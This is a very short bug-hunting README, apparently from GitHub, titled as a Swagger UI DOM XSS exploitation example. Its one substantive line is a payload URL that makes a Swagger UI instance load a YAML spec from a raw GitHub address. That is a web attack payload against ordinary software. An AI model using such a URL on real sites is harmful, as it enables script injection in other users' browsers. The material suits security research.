 # bughunting
Swagger Ui DOM XSS Exploition Example `https://httpbin.org/?url=https://raw.githubusercontent.com/Salman0x01/bughunting/main/swagger-ui-xss.yaml`
